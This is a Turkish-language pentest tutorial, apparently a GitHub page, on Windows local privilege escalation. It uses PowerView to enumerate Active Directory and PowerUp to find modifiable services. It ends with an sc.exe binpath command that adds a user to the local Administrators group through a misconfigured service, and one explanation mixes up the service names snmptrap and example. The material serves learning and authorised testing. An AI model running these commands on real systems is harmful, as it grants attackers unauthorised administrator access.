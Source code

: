 # YEREL YETKİ YÜKSELTME (LOCAL PRIVILEGE ESCALATION) - DS

Yetki yükseltme, bir saldırganın veya kötü amaçlı bir yazılımın, bir bilgisayar sistemi veya ağ üzerindeki erişim seviyesini artırması anlamına gelir. Yani, başlangıçta kısıtlı yetkilere sahip olan bir kullanıcı veya programın, daha yüksek ayrıcalıklara ulaşmasıdır.

## ADIM | 1: Keşif - PowerView

PowerView, özellikle Active Directory ortamlarında keşif ve yetki yükseltme için tasarlanmış bir PowerShell betik aracıdır. `PowerView_dev.ps1` ise bu aracın bir parçasıdır.

 **Amacı:** Bir saldırganın veya sızma testi yapan bir uzmanın, bir Windows domain'inde kullanıcılar, bilgisayarlar, gruplar, güven ilişkileri, grup ilkeleri (GPO'lar) ve diğer AD nesneleri hakkında ayrıntılı bilgi toplamasını sağlar.

PowerView aracılığı ile AD sisteminde kullanıcılar, sürümler gibi birçok bilgiyi görebiliriz. Bunu kullanmak için sisteme bağlı bir makina da PowerShell girmemiz gerekir;

* `../PowerView_dev.ps1`

Bu komut ile PowerView scriptlerimizi çalıştırma imkanı buluk.

* `Get-NetUser`

Bu komutu çalıştırdığımızda Domain Server daki tüm kullanıcıları görüntüleriz.

 * `Get-NetUser | Select-Object givenname`

Bu komut, sadece **givenname** sütununun çıktısını verir.

* `Get-NetComputer -Verbose`

Sistemdeki makinaları listeler. **-Verbose** parametresi, çıktıyı düzgün bir şekilde almak için kullanılır.

* `Get-NetGroup`

Bu komut, PowerView betik setinin bir parçasıdır ve domaindeki grupları (aynı yetki veya erişim düzeyine sahip olman kullanıcı ve makinalar) hakkında detaylı bilgi edinmenizi sağlar.


---


## ADIM | 2: Yetki Yükseltme - PowerUp

PowerUp, windows sistemlerinde yerel yetki yükseltme fırsatlarını tespit etmek ve potansiyel olarak kötüye kullanmak için tasarlanmış güçlü bir PowerShell betiğidir.

* ```bash
  ../PowerUp.ps1
  ```

Bu komut ile PowerUp scriptlerini çalıştırma imkanı sağlamış oluruz.

* ```
  Get-ModifiableService -Verbose
  ```

Bu komut, PowerUp yetki yükseltme aracının bir parçasıdır ve bir Windows sisteminde düşük ayrıcalıklı bir kullanıcının değiştirebileceği (manipüle edebileceği) servisleri bulmak için kullanılır.

* ```
  Invoke-AllChecks
  ```
  
Bu komut, PowerUp'ın tüm yerleşik yetki yükseltme kontrol mekanizmalarını devreye sokar. Bu kontroller, az önce manuel olarak baktığınız servis zafiyetlerinin yanı sıra, diğer tüm olası yetki yükseltme vektörlerini de kapsar.

* ```
  sc.exe qc <example.exe>
  ```

### ☆ İşte Yetki Yükseltme Burada Yatıyor:

Bu komut, özellikle `example.exe` adlı servisin nasıl yapılandırıldığını ve hangi yollarla çalıştığını anlamak için önemli bir ilk adımdır.

* ```
  sc.exe config <example> binpath="net localgroup administrators example\employee /add
  ```

  Bu komut, sc.exe (Service Control) aracını kullanarak "example" adlı Windows servisinin çalıştırılabilir dosya yolunu (binary path) değiştirmeyi hedefler. Ancak bu seferki değişiklik, sadece bilgi sorgulamakla kalmıyor, doğrudan bir kullanıcı ekleme işlemi gerçekleştiriyor.
  
  * `sc.exe config snmptrap binpath=`: Bu kısım, snmptrap servisinin çalıştırılabilir dosya yolunu değiştirmek için kullanıldığını belirtir.
  * `net localgroup administrators`: Bu komut, yerel "Administrators" grubunu hedefler.
  * `example\employee`: Bu, sisteme yerel yönetici olarak eklenmek istenen kullanıcının adıdır. Buradaki example genellikle bir etki alanı (domain) adını temsil eder.
  * `/add`: Bu argüman, net localgroup komutuna belirtilen kullanıcıyı veya grubu hedef gruba (burada "administrators") eklemesini söyler.
 
Bu komut başarılı olursa belirtilen **Employee** makinası artık admin yetkilerine sahip olacakltır.



